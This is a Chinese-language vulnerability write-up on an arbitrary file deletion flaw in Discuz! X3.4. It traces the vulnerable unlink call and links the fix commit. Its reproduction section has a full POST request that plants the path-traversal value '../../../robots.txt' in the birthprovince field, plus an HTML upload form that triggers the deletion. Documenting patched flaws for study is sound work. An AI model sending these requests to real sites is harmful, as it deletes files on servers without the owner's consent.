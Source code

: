 Discuz! X3.4 任意文件删除漏洞
=============================

一、漏洞简介
------------

二、漏洞影响
------------

影响版本：Discuz!x ≤3.4

三、复现过程
------------

### 漏洞分析

Discuz!X的码云已经更新修复了该漏洞

https://gitee.com/ComsenzDiscuz/DiscuzX/commit/7d603a197c2717ef1d7e9ba654cf72aa42d3e574

核心问题在`upload/source/include/spacecp/spacecp_profile.php`

![](resource/Discuz!X3.4任意文件删除漏洞/media/rId25.png)

跟入代码70行

    if(submitcheck('profilesubmit')) {

当提交profilesubmit时进入判断，跟入177行

![](resource/Discuz!X3.4任意文件删除漏洞/media/rId26.png)

我们发现如果满足配置文件中某个formtype的类型为file，我们就可以进入判断逻辑，这里我们尝试把配置输出出来看看

![](resource/Discuz!X3.4任意文件删除漏洞/media/rId27.png)

我们发现formtype字段和条件不符，这里代码的逻辑已经走不进去了

我们接着看这次修复的改动，可以发现228行再次引入语句unlink

    @unlink(getglobal('setting/attachdir').'./profile/'.$space[$key]);

回溯进入条件

![](resource/Discuz!X3.4任意文件删除漏洞/media/rId28.png)

当上传文件并上传成功，即可进入unlink语句

![](resource/Discuz!X3.4任意文件删除漏洞/media/rId29.png)

然后回溯变量`$space[$key]`,不难发现这就是用户的个人设置。

只要找到一个可以控制的变量即可，这里选择了birthprovince。

在设置页面直接提交就可以绕过字段内容的限制了。

![](resource/Discuz!X3.4任意文件删除漏洞/media/rId30.png)

成功实现了任意文件删除

### 漏洞复现

访问`http://your-ip/robots.txt`可见robots.txt是存在的：

![](resource/Discuz!X3.4任意文件删除漏洞/media/rId32.png)

注册用户后，在个人设置页面找到自己的formhash：

![](resource/Discuz!X3.4任意文件删除漏洞/media/rId33.png)

带上自己的Cookie、formhash发送如下数据包：

    POST /home.php?mod=spacecp&ac=profile&op=base HTTP/1.1
    Host: localhost
    Content-Length: 367
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPFvXyxL45f34L12s
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.79 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
    Cookie: [your cookie]
    Connection: close

    ------WebKitFormBoundaryPFvXyxL45f34L12s
    Content-Disposition: form-data; name="formhash"

    [your formhash]
    ------WebKitFormBoundaryPFvXyxL45f34L12s
    Content-Disposition: form-data; name="birthprovince"

    ../../../robots.txt
    ------WebKitFormBoundaryPFvXyxL45f34L12s
    Content-Disposition: form-data; name="profilesubmit"

    1
    ------WebKitFormBoundaryPFvXyxL45f34L12s--

提交成功之后，用户资料修改页面上的出生地就会显示成下图所示的状态：

![](resource/Discuz!X3.4任意文件删除漏洞/media/rId34.png)

说明我们的脏数据已经进入数据库了。

然后，新建一个`upload.html`，代码如下，将其中的`[your-ip]`改成discuz的域名，`[form-hash]`改成你的formhash：

    <body>
        <form action="http://[your-ip]/home.php?mod=spacecp&ac=profile&op=base&profilesubmit=1&formhash=[form-hash]" method="post" enctype="multipart/form-data">
            <input type="file" name="birthprovince" />
            <input type="submit" value="upload" />
        </form>
    </body>

用浏览器打开该页面，上传一个正常图片。此时脏数据应该已被提取出，漏洞已经利用结束。

再次访问`http://your-ip/robots.txt`，发现文件成功被删除：

![](resource/Discuz!X3.4任意文件删除漏洞/media/rId35.png)
